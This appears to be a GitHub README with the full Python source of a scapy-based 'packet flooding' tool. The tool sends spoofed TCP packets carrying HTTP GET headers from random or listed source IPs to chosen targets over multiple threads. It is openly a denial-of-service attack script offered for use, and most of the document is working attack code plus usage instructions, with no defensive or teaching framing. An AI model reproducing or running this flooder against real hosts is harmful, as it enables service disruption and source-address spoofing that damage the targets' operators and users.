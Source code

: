 # Packet Flooding Script
- This script allows you to send random packets to target IP addresses or URLs using multiple threads.

### Requirements

```csharp
sudo apt install pip
pip install scapy
```

#### Usage
```python
python dosy.py [-h] [-t TARGET] [-T TARGET_FILE] [-i SOURCE_FILE] [-p PORT] [-l LOCAL_PORT] [-n NUM_THREADS] [-c COUNT]
```

|Argument|Argument|Description|
| -- | -- | -- |
|-h | --help | Show help message and exit|
|-t [TARGET] | --target [TARGET] | Target IP or URL|
|-T [TARGET_FILE] | --target-file [TARGET_FILE] | File containing a list of target IPs or URLs|
|-i [SOURCE_FILE] | --source-file [SOURCE_FILE] | File containing a list of source IPs rather than random IPs|
|-p [PORT] | --port [PORT] | Target port (default: 8080)|
|-l [LOCAL_PORT] | --local-port [LOCAL_PORT] | Local port|
|-n [NUM_THREADS] | --num-threads [NUM_THREADS] | Number of threads (default: 10)|
|-c [COUNT] | --count [COUNT] | Limit of packets to be sent|


##### Example Command
```python
python packet_flood.py -t 192.168.0.1 -p 80 -n 5 -c 100
```
- This will send 100 packets to IP `192.168.0.1` on port `80` using 5 threads.
- The `-t` or `--target` option must be used to specify a target IP or URL, or the `-T` or `--target-file` option must be used to specify a file containing a list of target IPs or URLs.
- If the `-i` or `--source-file` option is not used, the script will generate random source IPs for each thread.

### CODE
```python
#!/bin/python3
import argparse
import random
import threading
import time
from scapy.all import *

# User agent strings for GET requests
BROWSERS = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36",
]

def get_args():
    parser = argparse.ArgumentParser(description="Send random packets to target(s)")
    parser.add_argument('-t', '--target', help='Target IP or URL')
    parser.add_argument('-T', '--target-file', help='File containing list of target IPs or URLs')
    parser.add_argument('-i', '--source-file', help='File containing list of source IPs')
    parser.add_argument('-p', '--port', type=int, default=8080, help='Target port')
    parser.add_argument('-l', '--local-port', type=int, help='Local port')
    parser.add_argument('-n', '--num-threads', type=int, default=10, help='Number of threads')
    parser.add_argument('-c', '--send-count', type=int, default=10, help='Number of packets to send across all threads')
    return parser.parse_args()

def send_packets(source, target, local_port, port, send_count):

    # source     - where the packet is coming from
    # target     - where the packet is going to
    # port       - what port we are sending the packet to
    # send_count - how many packets to send

    # starts a counter to keep track of sent packets
    packets_sent = 0
    while packets_sent < send_count:

        # randomly select a user agent
        user_agent = random.choice(BROWSERS)
        # set the user agent based on the random choice above
        headers = {"User-Agent": user_agent}

        # creates the packet
        packet = IP(src=source, dst=target) / TCP(sport=local_port, dport=port) / Raw("GET / HTTP/1.1\r\n") + \
                 Raw("\r\n".join(f"{key}: {value}" for key, value in headers.items()) + "\r\n\r\n")

        # send the packet
        send(packet, verbose=False)

        # print the output to terminal
        print(f"Sent packet to {target}:{port} from source IP: {source}, local port: {local_port}, User-Agent: {user_agent}")

        packets_sent += 1
        time.sleep(random.uniform(0, 2))

def main():
    args = get_args()
    if not args.target and not args.target_file:
        print("Error: either --target or --target-file must be specified")
        return

    if args.target:
        targets = [args.target]
    else:
        with open(args.target_file) as f:
            targets = f.read().splitlines()

    if args.source_file:
        with open(args.source_file) as f:
            sources = f.read().splitlines()
    else:
        # if no source IP specified, generate random source IP
        sources = ['.'.join(map(str, (random.randint(0, 255) for _ in range(4))))]

    send_count_per_thread = args.send_count // args.num_threads
    remaining_packets = args.send_count % args.num_threads

    for _ in range(args.num_threads):
        source = random.choice(sources)
        target = random.choice(targets)
        local_port = args.local_port if args.local_port else random.randint(1024, 65535)
        packets_to_send = send_count_per_thread
        if remaining_packets > 0:
            packets_to_send += 1
            remaining_packets -= 1
        t = threading.Thread(target=send_packets, args=(source, target, local_port, args.port, packets_to_send))
        t.start()

if __name__ == '__main__':
    main()
```

